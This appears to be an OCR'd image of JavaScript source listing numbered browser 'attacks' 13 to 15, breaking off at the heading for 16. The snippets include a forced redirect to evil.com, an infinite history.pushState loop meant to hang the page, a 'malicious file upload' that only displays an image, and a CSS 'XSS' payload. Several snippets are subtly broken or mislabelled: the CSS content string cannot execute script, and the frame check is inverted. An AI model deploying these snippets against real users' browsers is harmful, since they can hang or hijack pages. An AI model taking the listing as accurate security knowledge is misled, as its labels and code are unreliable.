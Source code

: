 ```javascript

if (self == top) {

  top.location.href = 'http://evil.com';

}



// Attack 13: Malicious File Upload

var fileInput = document.createElement('input');

fileInput.type = 'file';

fileInput.accept = 'image/*';

fileInput.onchange = function() {

  var file = fileInput.files[0];

  var reader = new FileReader();

  reader.onload = function(event) {

    var imageData = event.target.result;

    var img = new Image();

    img.src = imageData;

    document.body.appendChild(img);

  };

  reader.readAsDataURL(file);

};



// Attack 14: Denial of Service

while (true) {

  history.pushState(null, null, '#');

}



// Attack 15: Cross-Site Scripting via CSS

var styleElement = document.createElement('style');

styleElement.innerHTML = 'body { content: "<script>alert(\'XSS\');</script>"; }';

document.head.appendChild(styleElement);



// Attack 16: XML External Entity Injection

```